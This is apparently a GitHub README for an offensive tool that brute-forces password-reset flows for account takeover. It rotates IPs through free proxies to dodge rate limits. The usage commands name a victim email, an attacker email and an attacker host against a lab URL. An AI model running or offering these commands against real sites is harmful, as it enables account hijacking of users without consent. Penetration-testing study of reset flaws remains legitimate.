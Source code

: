 # PwResetATO

## Password Reset Brute force with ip rotation

This tool is a simple brute force that implements the hacktricks methodology in reset password.
The tool comes with ip rotation also to bypass ip based rate limit.

There are 2 script included. 1 for getting proxy list on https://free-proxy-list.net and the other is for checking the password reset

### Installation

Run the command below to install the required libraries used in the tool.
* pip3
  ```sh
  pip3 install -r requirements.txt
  ```
  
### Usage

Tool usage.
* pip3
  ```sh
  python3 test.py -vm 'victim@email.com' -tm 'attacker@email.com' -p email -ah 10.0.2.15 -u http://10.0.2.2/ResetPassword.php
  python3 test.py -vm 'victim@email.com' -p email -to tokenvlue -top token -u http://10.0.2.2/ResetPassword.php
  
  for IP rotation
  python3 test.py -vm 'victim@email.com' -tm 'attacker@email.com' -p email -ah 10.0.2.15 -e -u http://10.0.2.2/ResetPassword.php
  
  ```

# Disclaimer
```sh
The tool is for education purpose only. Usage of the tool for attacking the website without consent is illegal. 
The end user of the tool will be responsible for the damage it might cause.
The developer of the tool assume no liability and not responsbile for any misuse and damage.
```

## Authors

[anantha](https://github.com/Ananthavijay)

[damaidec](https://medium.com/@damaidec)

#### References
```sh
https://book.hacktricks.xyz/pentesting-web/reset-password
https://hackerone.com/reports/819930
https://rhinosecuritylabs.com/aws/bypassing-ip-based-blocking-aws/
https://www.pluralsight.com/guides/extracting-data-html-beautifulsoup
https://www.thepythoncode.com/article/using-proxies-using-requests-in-python
```
